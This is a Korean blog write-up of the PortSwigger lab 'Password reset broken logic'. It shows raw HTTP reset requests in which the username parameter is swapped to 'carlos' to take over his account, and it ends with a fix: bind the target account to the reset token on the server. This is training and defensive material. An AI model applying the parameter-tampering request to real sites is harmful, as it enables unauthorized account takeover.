



+++
url = '/write-up/portswigger/authentication/write-up-portswigger---password-reset-broken-logic/'
date = '2026-07-08T15:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Password reset broken logic'
summary = "비밀번호 재설정 요청 본문의 username 파라미터를 타인으로 바꿔 임의 계정의 비밀번호를 재설정하는 Authentication 풀이"
toc = true
tags = ["Authentication", "Password Reset", "Broken Logic", "PortSwigger", "Apprentice"]
+++

---

## 문제 분석

> **난이도**: `APPRENTICE`  
> **Lab**: [Password reset broken logic](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)

> 

이 랩은 비밀번호 재설정 기능에 로직 결함이 있다. `carlos`의 비밀번호를 재설정해 계정 페이지에 접근하면 문제가 해결된다. 실습 계정은 `wiener:peter`다.

### Authentication 진단

먼저 본인 계정으로 재설정 기능을 사용해 흐름을 관찰한다.



Forgot password에서 username을 입력하면 재설정 이메일이 전달되고, 링크를 따라가 새 비밀번호를 제출하면 다음 요청이 발생한다.

```http
POST /forgot-password?temp-forgot-password-token=izetuxrs7571zenclvu0zm2avn30ko3h HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session>
Content-Type: application/x-www-form-urlencoded

temp-forgot-password-token=izetuxrs7571zenclvu0zm2avn30ko3h&username=wiener&new-password-1=1234&new-password-2=1234
```

주목할 점은 본문에 **`username`이 그대로 실려 있다**는 것이다. 재설정 대상 계정을 요청 파라미터가 지정하고 있으므로, 이 값을 바꾸면 대상도 바뀔 수 있다. 토큰은 여전히 내 것이지만, 서버가 "토큰의 소유자"와 "재설정 대상 username"을 함께 검증하지 않으면 결함이 성립한다.

---

## 익스플로잇

재설정 요청의 `username`을 `carlos`로 바꿔 전송한다.

```http
POST /forgot-password?temp-forgot-password-token=izetuxrs7571zenclvu0zm2avn30ko3h HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session>
Content-Type: application/x-www-form-urlencoded

temp-forgot-password-token=izetuxrs7571zenclvu0zm2avn30ko3h&username=carlos&new-password-1=1234&new-password-2=1234
```

서버는 내 토큰을 유효한 것으로 받아들이면서 재설정을 `carlos`에게 적용한다. 이제 `carlos` 계정에 방금 설정한 비밀번호 `1234`로 로그인하면 문제가 해결된다.



---

## 정리

이 랩의 결함은 재설정 토큰의 강도가 아니라 **토큰과 대상 계정의 결합**에 있다. `temp-forgot-password-token`은 추측하기 어려운 값이지만, 서버는 그 토큰이 어느 계정에 발급됐는지를 토큰 자체로 판정하지 않고 요청 본문의 `username`을 믿는다. 그래서 공격자는 자기 앞으로 정상 발급된 토큰을 들고, 대상만 남의 것으로 바꿔 재설정을 성사시킨다.

핵심은 재설정 절차에서 **"누구의 계정을 바꾸는가"가 위조 불가능한 근거로 결정되어야** 한다는 것이다. 대상 계정은 토큰 발급 시점에 서버가 토큰에 묶어 저장하고, 재설정을 처리할 때 그 저장값에서 읽어야 한다. 대상을 클라이언트가 보내는 파라미터로 지정하는 순간, 토큰이 아무리 강력해도 재설정은 임의 계정으로 향한다.

이는 [Access Control의 파라미터 기반 결함](/write-up/portswigger/access-control/write-up-portswigger---user-id-controlled-by-request-parameter/)과 뿌리가 같다 — 서버가 가져야 할 상태(대상 계정)를 클라이언트 입력으로 표현한 것이다. 진단에서는 재설정·변경 요청에 대상 식별자(`username`·`user`·`email`)가 실려 있는지 보고, 이를 타인으로 치환해 적용되는지 확인한다. 재설정의 다른 결함은 [reset poisoning via middleware](/write-up/portswigger/authentication/write-up-portswigger---password-reset-poisoning-via-middleware/)에서 다룬다.
